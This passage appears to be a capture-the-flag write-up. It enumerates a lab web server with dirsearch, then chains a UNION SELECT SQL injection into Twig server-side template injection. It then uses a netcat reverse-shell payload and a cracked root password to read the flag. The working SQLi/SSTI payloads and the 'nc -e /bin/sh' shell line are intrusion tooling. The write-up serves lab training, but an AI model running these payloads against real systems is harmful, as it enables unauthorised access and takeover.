| root        | *B9A807976C7B135C0870F1F11AAB33AB0E4D3CD9 (qwertyuiop) |
+-------------+---------------------------------------------------------+
```
dirsearch also proved useful to see what directories and files were present
```
└──╼ $dirsearch -u http://10.107.0.4

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/keiran/fifth_domain/2024_season_02/yourDBA/SSTImap/reports/http_10.107.0.4/_24-04-26_08-43-23.txt

Target: http://10.107.0.4/

[08:43:23] Starting:
[08:43:27] 403 -  275B  - /.ht_wsr.txt
[08:43:27] 403 -  275B  - /.htaccess.bak1
[08:43:28] 403 -  275B  - /.htaccess.orig
[08:43:28] 403 -  275B  - /.htaccess.sample
[08:43:28] 403 -  275B  - /.htaccess_extra
[08:43:28] 403 -  275B  - /.htaccess.save
[08:43:28] 403 -  275B  - /.htaccess_sc
[08:43:28] 403 -  275B  - /.htaccessBAK
[08:43:28] 403 -  275B  - /.htaccess_orig
[08:43:28] 403 -  275B  - /.htaccessOLD2
[08:43:28] 403 -  275B  - /.html
[08:43:28] 403 -  275B  - /.htaccessOLD
[08:43:28] 403 -  275B  - /.htm
[08:43:28] 403 -  275B  - /.htpasswds
[08:43:28] 403 -  275B  - /.htpasswd_test
[08:43:28] 403 -  275B  - /.httr-oauth
[08:43:30] 403 -  275B  - /.php
[08:44:05] 200 -   11KB - /composer.lock
[08:44:05] 200 -   55B  - /composer.json
[08:45:03] 403 -  275B  - /server-status
[08:45:03] 403 -  275B  - /server-status/
[08:45:16] 403 -  275B  - /templates/
[08:45:16] 301 -  312B  - /templates  ->  http://10.107.0.4/templates/
[08:45:24] 403 -  275B  - /vendor/
[08:45:24] 200 -    0B  - /vendor/autoload.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_classmap.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[08:45:24] 200 -    0B  - /vendor/composer/ClassLoader.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_files.php
[08:45:24] 200 -    0B  - /vendor/composer/autoload_static.php
[08:45:24] 200 -    1KB - /vendor/composer/LICENSE
[08:45:24] 200 -    0B  - /vendor/composer/autoload_psr4.php
[08:45:24] 200 -   11KB - /vendor/composer/installed.json
[08:45:24] 200 -    0B  - /vendor/composer/autoload_real.php
```
There were a few files to check but the composer.json file was the one of interest, it revealed that the site was using the Twig template.
Twig can be susceptable to SSTI and referring to earlier, the books table indicated the use of twig with {{ author }}

Using UNION select in the pages search field, testing for SSTI was achieved by entering
```
cn' UNION SELECT 'Custom Title', 'Custom Author', '{{ 7*7 }}', 'Custom Comments' AS new FROM books -- -
```
This returned the value of 49 in the Description column of the table on the webpage which confirmed SSTI


It was then a matter of crafting a specific payload to check for system access, and then a remote shell
The following returned the id of the www-data user
```
cn' UNION SELECT 'Custom Title', 'Custom Author', '{{[\'id\',\"\"]|sort(\'system\')}}', 'Custom Comments' AS new FROM books -- -
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)


From here, commands such as ls, pwd, cat /etc/passwd also worked so it was a matter of determining a payload


I opted to try netcat and used the following after establishing a listerner on the kali VDI:
```
cn' UNION SELECT 'Custom Title', 'Custom Author', '{{[\'nc -e /bin/sh 192.168.88.2 4444\',\"\"]|sort(\'system\')}}', 'Custom Comments' AS new FROM books -- -
```
This gave me a simple shell.
Once the shell is obtained, it's a few checks to ensure you're in a bash environment, then switch to root and get the flag.
```
--$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.88.2] from (UNKNOWN) [192.168.88.100] 40038
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
su - (then enter the root password)
qwertyuiop
whoami
root
cat /flag.txt
FLAG{my_0ther_db_1s_your_db}
```
:+1: FLAG{my_0ther_db_1s_your_db}
<hr>
